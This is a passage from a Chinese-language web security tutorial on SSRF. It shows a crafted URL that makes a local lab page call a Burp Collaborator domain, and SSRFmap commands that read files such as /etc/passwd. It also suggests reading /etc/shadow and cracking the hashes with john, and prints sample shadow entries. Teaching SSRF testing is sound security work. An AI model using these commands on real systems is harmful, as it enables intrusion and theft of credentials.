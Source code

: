 
<p data-nodeid="59780" class=""><img src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___OaARRUKAAA1N0CwrBA260.png" alt="Drawing 9.png" data-nodeid="60063"></p>
<div data-nodeid="59781"><p style="text-align:center">图 10：Burp Collaborator client</p></div>
<p data-nodeid="59782">点击“Copy to clipboard”获取生成的域名，我这里生成的是“c3g9ga6x5zdxijo5d3aifxv6nxtnhc.burpcollaborator.net”，我们就可以构造如下利用链接：</p>
<pre class="lang-java" data-nodeid="59783"><code data-language="java">http:<span class="hljs-comment">//localhost:8080/vul/ssrf/ssrf_curl.php?url=http://c3g9ga6x5zdxijo5d3aifxv6nxtnhc.burpcollaborator.net</span>
</code></pre>
<p data-nodeid="59784">访问后回到 Burp Collaborator client，点击“Poll now”就可以看到 DNS 请求记录，这说明存在 SSRF 漏洞。</p>
<p data-nodeid="59785"><img src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___PCAJA70AABnCpr9zFk818.png" alt="Drawing 10.png" data-nodeid="60068"></p>
<div data-nodeid="59786"><p style="text-align:center">图 11：获得 DNS 请求日志证明存在 SSRF 漏洞</p></div>
<p data-nodeid="59787">这个检测方法比较通用简单，且无须自己搭建 DNS 服务器，非常方便，我强烈推荐。</p>
<h4 data-nodeid="59788">2.工具：SSRFmap</h4>
<p data-nodeid="59789">这里给大家介绍一款 SSRF 检测工具：<a href="https://github.com/swisskyrepo/SSRFmap" data-nodeid="60074">SSRFmap</a>，利用它可检测与利用 SSRF 漏洞， 同时它也整合了一些常用漏洞可以结合 SSRF 去利用，比如 fastjson、mysql、github 的一些历史漏洞，还有端口扫描、读取文件等利用功能，都是实用的漏洞利用能力。</p>
<p data-nodeid="59790">使用上会比 Burp Collaborator 便捷，但检测能力上其实没有 Burp Collaborator 那样准确，SSRFmap 有时会利用失败。所以个人推荐使用 Burp Collaborator 用来检测 SSRF 是否存在，再使用 SSRFmap 做一些漏洞利用，比如读取敏感文件等操作。</p>
<p data-nodeid="59791">SSRFmap 是以 HTTP 请求数据作为文件输入，使用命令如下：</p>
<p data-nodeid="59792"><img src="https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___PiASgPlAAEZ_x3Bz0k961.png" alt="Drawing 11.png" data-nodeid="60080"></p>
<div data-nodeid="59793"><p style="text-align:center">图 12：SSRFmap</p></div>
<p data-nodeid="59794">用其自带的测试用例，试用下：</p>
<pre class="lang-java" data-nodeid="59795"><code data-language="java">FLASK_APP=data/example.py flask run &amp;
python ssrfmap.py -r data/request.txt -p url -m readfiles
</code></pre>
<p data-nodeid="59796">其中 data/request.txt 内容如下：</p>
<pre class="lang-java" data-nodeid="59797"><code data-language="java">POST /ssrf HTTP/<span class="hljs-number">1.1</span>
Host: <span class="hljs-number">127.0</span><span class="hljs-number">.0</span><span class="hljs-number">.1</span>:<span class="hljs-number">5000</span>
User-Agent: Mozilla/<span class="hljs-number">5.0</span> (X11; Linux x86_64; rv:<span class="hljs-number">62.0</span>) Gecko/<span class="hljs-number">20100101</span> Firefox/<span class="hljs-number">62.0</span>
Accept: text/html,application/xhtml+xml,application/xml;q=<span class="hljs-number">0.9</span>,*<span class="hljs-comment">/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1
url=https%3A%2F%2Fwww.google.fr%
</span></code></pre>
<p data-nodeid="59798">它会读取很多敏感文件，比如 /etc/passwd、/etc/hosts：</p>
<p data-nodeid="59799"><img src="https://s0.lgstatic.com/i/image/M00/8D/98/CgqCHl___QOAXop9AAFeL92aWyk084.png" alt="Drawing 12.png" data-nodeid="60086"></p>
<div data-nodeid="59800"><p style="text-align:center">图 13：利用 SSRFmap 读取本地文件</p></div>
<p data-nodeid="59801">以上我们测试了，然后读取了敏感文件，然后好像就戛然而止了，读取之后就没有下文了。比如你想破解主机密码，就可以读取文件 /etc/shadow 以获得用户名和密码密文，然后就可以用 john 去破解密码：</p>
<pre class="lang-java" data-nodeid="59802"><code data-language="java">$ sudo cat /etc/shadow
root:$<span class="hljs-number">6</span>$TBFgG/seGvOG8nOp$LvZXXXXXXXENV2F6SEATplyE1QY33W2buEs10XLi.zQD8iwl.kCwsD.OMQ6WWkmUdu/<span class="hljs-number">9</span>RPLHvLYSzMfcLj0:<span class="hljs-number">18446</span>:<span class="hljs-number">0</span>:<span class="hljs-number">99999</span>:<span class="hljs-number">7</span>:::
daemon:*:<span class="hljs-number">18375</span>:<span class="hljs-number">0</span>:<span class="hljs-number">99999</span>:<span class="hljs-number">7</span>:::
bin:*:<span class="hljs-number">18375</span>:<span class="hljs-number">0</span>:<span class="hljs-number">99999</span>:<span class="hljs-number">7</span>:::
sys:*:<span class="hljs-number">18375</span>:<span class="hljs-number">0</span>:<span class="hljs-number">99999</span>:<span class="hljs-number">7</span>:::